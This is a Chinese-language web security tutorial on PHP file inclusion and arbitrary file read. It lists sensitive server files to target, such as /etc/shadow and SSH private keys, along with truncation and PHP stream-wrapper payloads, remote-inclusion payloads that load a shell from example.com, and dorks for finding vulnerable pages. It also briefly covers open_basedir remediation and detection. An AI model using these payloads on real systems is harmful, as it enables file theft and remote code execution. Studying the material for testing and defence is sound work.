

## 一、本地文件包含
  
文件包含漏洞的产生原因是在通过引入文件时，由于传入的文件名没有经过合理的校验，或者校检被绕过，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。当被包含的文件在服务器本地时，就形成的本地文件包含漏洞。
  
比如 `<? include($_GET['path']) ?>`
  
许多工具都支持本地文件包含漏洞的检测，Kadimus是其中一款。具体使用方法参见[Kadimus](https://github.com/P0cL4bs/Kadimus/)
  

  
以下是一些本地包含漏洞中常利用的服务器上的重要文件
  
```
  
.htaccess
  
/var/lib/locate.db
  
/var/lib/mlocate/mlocate.db 
  
/var/log/apache/error.log
  
/usr/local/apache2/conf/httpd.conf
  
/root/.ssh/authorized_keys
  
/root/.ssh/id_rsa
  
/root/.ssh/id_rsa.keystore
  
/root/.ssh/id_rsa.pub
  
/root/.ssh/known_hosts
  
/etc/shadow
  
/root/.bash_history
  
/root/.mysql_history
  
/proc/self/fd/fd[0-9]* (文件标识符)
  
/proc/mounts
  
/proc/config.gz
  
/tmp/sess_sessionid
  
```
  
本地文件包含漏洞也常需要进行截断，以下是一些常用的截断方法
  
%00截断：
  
`/etc/passwd%00`
  
(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
  

  
%00截断目录遍历：
  
`/var/www/%00`
  
(需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)
  

  
路径长度截断：
  
`/etc/passwd/././././././.[…]/./././././.`
  
(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)
  

  
点号截断：
  
`/boot.ini/………[…]…………`
  
(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)
  
%00 截断更多地用于文件包含，比如 `<?php include($_GET['path']).".jpg" >` 要求一定是jpg 后缀的，这样我们可以用 `1.php?path=php://input%00` 这样就把后面的 .jpg 吃掉了。同理 path=../../../../etc/passwd%00  读取 /etc/passwd，在存在文件名后缀限定的情况下，`path=../../../../etc/passwd%00.jpg`、`path=../../../../etc/passwd\0.jpg`、`path=..\\..\\..\\..\\etc/passwd\0.jpg`
  
当然也可以把 php 代码文件后缀改为 jpg，直接包含执行。
  

  
e.g [Cacti Superlinks Plugin 1.4-2 - RCE (LFI) via SQL Injection Exploit](https://www.exploit-db.com/exploits/35578/)
  

  
修复方案：
  
php中可以使用 open_basedir  将用户文件访问限制在指定的区域。如将文件访问限制在 /dir/user/ 中。
  
在php.ini中设置 `open_basedir = /dir/user/`
  

  
但该方法并不是万能的，在某些情况下仍可能会被绕过， 对传入的参数进行校检和过滤始终是有必要的。
  

  
常见的导致文件包含的函数如下：
  
PHP： include(), include_once(), require(), require_once(), fopen(), readfile() ...
  
当使用前4个函数包含一个新的文件时，该文件将作为 php 代码执行，php 内核不会在意该被包含的文件是什么类型。
  
包含 /proc/self/environ 可以看到系统的一些环境变量，如web 路径等。
  

  
## 二、远程文件包含
  
`<?php include($_GET['file']); ?>`
  
* 远程代码执行：`?file=[http|https|ftp]://example.com/shell.txt`
  (需要allow_url_fopen=On并且 allow_url_include=On)
  
* file 协议读取本地文件：`file=file://etc/passwd`  
(需要allow_url_fopen=On并且 allow_url_include=On)
  
* 利用php流input：`?file=php://input`
  (需要allow_url_include=On，详细→http://php.net/manual/en/wrappers.php.php)
  

  
* 利用php流filter：`?file=php://filter/convert.base64-encode/resource=index.php`
  (同上)
  

  
* 利用data URIs：`?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=%00`
  (需要allow_url_include=On)
  

  
* 利用XSS执行任意代码：`?file=http://127.0.0.1/path/xss.php?xss=phpcode`
  (需要allow_url_fopen=On，allow_url_include=On并且防火墙或者白名单不允许访问外网时，先在同站点找一个XSS漏洞，包含这个页面，就可以注入恶意代码了)
  `<?php include($_GET['file'] . ".htm"); ?>`
  

  
* `?file=http://example.com/shell`
  

  
* `?file=http://example.com/shell.txt?`
  

  
* `?file=http://example.com/shell.txt%23`
  (需要allow_url_fopen=On并且allow_url_include=On)
  

  
* `?file=\evilshare\shell.php` (只需要allow_url_include=On)
  

  
无论是本地文件包含还是远程文件包含， 实际上我们操作文件的函数不只是include()一个，上面提到的一些截断的方法同样可以适用于以下函数：
  

  
自动化检测思路中，比较简单的一种是将url参数值替换为`./index.php`，如果存在漏洞会出现报错（根据不同系统语言而不同），比如 `Failed opening|failed to open stream`
  

  
## 三、任意文件读取
  
任意文件读取与文件包含的界限有点模糊，可以认为文件包含包括任意文件读取，只是任意文件读取不会造成代码执行，也就是文件内容输出的上下文不是脚本执行环境。
  
```
  
从链接上看，形如：
  
inurl:"readfile.php?file=" 、inurl:"read.php?filename="、inurl:"download.php?file="、inurl:"down.php?file="
  
从参数名看，形如：
  
&RealPath= 、&FilePath= 、&filepath= 、&Path= 、&path= 、&inputFile= 、&url= 、&urls= 、&Lang= 、&dis= 、&data= 、&readfile= 
、&filep= 、&src= 、&menu= 、META-INF 、WEB-INF
  
```
  
自动化检测思路中，payload 是结合绕过姿势尝试读取一些常见的文件，比如 /etc/passwd，/WEB-INF/web.xml 等，匹配是否是所读文件的内容，若是则表示存在漏洞。
  

  

  

  

  
